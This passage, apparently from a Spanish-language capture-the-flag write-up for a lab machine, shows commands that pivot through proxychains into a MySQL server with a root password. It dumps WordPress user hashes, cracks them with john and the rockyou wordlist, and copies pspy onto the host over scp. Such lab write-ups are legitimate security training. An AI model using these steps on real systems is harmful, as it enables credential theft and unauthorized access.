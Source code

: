 ![104](/assets/images/Toby/104_access.png)

Tambien podemos intentar romper el cifrado de las contrasenas de la DB que teniamos.

Accedemos a la base de datos con:

```SQL
proxychains mysql -uroot -pOnlyTheBestSecretsGoInShellScripts -h 172.69.0.102

show databases;

show tables;

describe wp_users;

select user_login,user_pass from wp_users;
```

Y ahora con jhon romperemos los hashes por fuerza bruta con la wordlist rockyou

```s
john -w:/usr/share/wordlists/rockyou.txt hashes
```

Ahora mediante fuerza bruta tenemos la contrasena de jack tambien.
Podemos intentar acceder a la maquina del mysql con proxychains a traves del ssh.

Para ver los procesos que se estan ejecutando le pasaremos el pspy de la siguiente forma, ya que no tiene curl, ni wget la maquina:

```s
proxychains scp pspy jack@172.69.0.102:/tmp/pspy
```

Le damos permisos de ejecusion y lo ejecutamos.
